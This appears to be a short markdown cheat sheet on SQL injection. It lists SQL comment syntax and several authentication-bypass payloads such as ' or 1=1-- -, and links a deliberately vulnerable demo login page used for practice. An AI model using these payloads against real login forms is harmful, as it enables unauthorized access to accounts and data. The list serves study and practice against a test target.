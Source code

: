 

**Comment in SQL**

- -- or -- -
- #
- /*

#### Standard Sql Injection Payload 

**Authentication Bypass**

- ' or 1=1-- -
- ' or 1=1-- -
- ' or 1=1#
- " or 1=1--
- x' or 'x'='x
- x' or 'x'!='y



http://demo.testfire.net/login.jsp

![image-20211013134722473](images/image-20211013134722473.png)
